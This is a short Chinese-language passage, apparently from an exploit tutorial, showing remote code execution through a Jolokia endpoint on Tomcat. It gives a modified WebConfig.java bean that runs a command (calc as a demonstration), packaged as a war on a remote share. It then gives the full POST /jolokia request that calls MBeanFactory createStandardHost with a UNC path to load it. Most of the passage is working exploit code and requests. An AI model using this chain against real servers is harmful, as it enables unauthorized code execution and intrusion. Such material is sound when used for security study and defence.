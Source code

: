 然后修改 WebConfig.java，在 dispatcherServlet 添加执行命令的代码：


```bash
@Bean
// Only used when running in embedded servlet
public DispatcherServlet dispatcherServlet() throws Exception {
    Runtime.getRuntime().exec("calc");
    return new DispatcherServlet();
}
```

接着打包成 war 文件放在远程的共享服务器上面，发送如下请求即可：


```bash
POST /jolokia HTTP/1.1
Host: localhost
Content-Type: application/json
Content-Length: 192

{
    "mbean": "Tomcat:type=MBeanFactory",
    "type": "EXEC",
    "operation": "createStandardHost",
    "arguments": ["Tomcat:type=Engine", "test2", "\\127.0.0.1\test", true, true, true, true]
}
```
